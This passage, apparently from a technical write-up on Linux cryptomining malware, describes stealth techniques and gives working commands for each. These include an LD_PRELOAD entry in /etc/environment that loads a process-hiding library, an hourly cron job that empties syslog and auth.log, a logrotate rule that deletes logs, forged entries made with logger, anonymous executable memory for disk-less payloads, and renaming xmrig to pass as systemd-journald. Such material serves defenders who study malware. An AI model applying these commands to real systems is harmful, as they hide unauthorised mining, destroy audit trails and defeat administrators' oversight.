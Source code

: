 **Example Configuration**:  
```bash  
# Preload the malicious library for all users  
echo 'LD_PRELOAD=/path/to/libps_hider.so' >> /etc/environment  
```  

---

### Log Manipulation and Forgery  
Logs are systematically erased or altered to remove traces of mining activity:  
1. **Scheduled Log Deletion**:  
   ```bash  
   # Cron job to clear logs every hour  
   0 * * * * echo > /var/log/syslog && echo > /var/log/auth.log  
   ```  
2. **Logrotate Configuration**:  
   Modifying `/etc/logrotate.conf` to immediately delete logs after rotation:  
   ```  
   /var/log/*.log {  
       rotate 0  
       missingok  
       notifempty  
       create 0640 root adm  
       postrotate  
           echo > /var/log/syslog  
       endscript  
   }  
   ```  
3. **Fake Log Entries**:  
   Using `logger` to insert benign entries:  
   ```bash  
   logger -t "systemd" "Updating network configuration"  
   ```  

---

### Memory-Only Execution  
Payloads are loaded entirely into RAM to avoid disk traces, using techniques like:  
- **Anonymous Mappings**:  
  ```c  
  // Allocate memory without disk backing  
  void *payload = mmap(NULL, size, PROT_EXEC | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);  
  ```  
- **Self-Decrypting Code**:  
  Encrypted payloads are decrypted in memory at runtime, leaving no residual files.  

---

### Process Masquerading and Systemd Exploits  
1. **Binary Renaming**:  
   ```bash  
   mv /usr/bin/xmrig /usr/bin/systemd-journald  
   ```  
   The mining process now appears as a legitimate system service.  
